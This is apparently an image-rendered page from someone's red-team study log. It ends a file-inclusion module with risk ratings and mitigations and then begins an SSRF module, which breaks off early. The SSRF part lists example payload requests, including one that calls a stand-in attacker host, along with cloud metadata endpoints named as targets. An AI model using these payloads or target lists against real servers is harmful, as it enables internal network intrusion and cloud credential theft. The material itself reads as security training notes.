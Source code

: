 ```bash
POST-EXPLOITATION
Data exfiltration from compromised systems

Lateral movement preparation

Evidence collection for campaign reporting

📈 RISK ASSESSMENT
LFI Impact: Medium-High (Data leakage, information disclosure)

RFI Impact: Critical (Remote Code Execution, full compromise)

Detection Difficulty: Low-Medium (Logs show file access patterns)

🔧 MITIGATIONS UNDERSTOOD
Input validation and whitelisting

Web application firewalls (WAF)

Proper PHP configuration hardening

Principle of least privilege for web server

🚀 PROGRESSION IN RED TEAM SKILL MATRIX
✅ Network Security
✅ Web Application Security ← FILE INCLUSION ADDED
◽ Active Directory Exploitation
◽ Cloud Security
◽ Advanced Persistence Techniques

OPERATIONAL NOTES: File inclusion vulnerabilities remain prevalent in web applications despite being well-understood. RFI provides the most direct path to RCE, while LFI offers valuable intelligence for targeted attacks.

# Red Monster Journey 🐲 
## Server-Side Request Forgery (SSRF) Mastery

### 🎯 MODULE COMPLETION: SSRF ATTACKS
**Status:** Mastered ✅
**Red Team Application:** Internal Network Access & Cloud Compromise

### 🔴 SSRF TRADECRAFT DOCUMENTATION

#### 📊 VULNERABILITY OVERVIEW
SSRF vulnerabilities allow attackers to force servers to make arbitrary HTTP requests to internal resources, bypassing network segmentation and accessing restricted systems.

#### 🎲 EXPLOITATION TECHNIQUES MASTERED

##### SSRF TYPES & DETECTION
```http
# Regular SSRF (Response Visible)
GET /fetch?url=http://attacker-controlled.com
POST /webhook { "callback": "http://internal.service" }

# Blind SSRF (No Response)
GET /trigger?action=http://internal:8080/update
INTERNAL NETWORK TARGETS
bash
# Cloud Metadata APIs
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/
http://169.254.169.254/metadata/instance
```
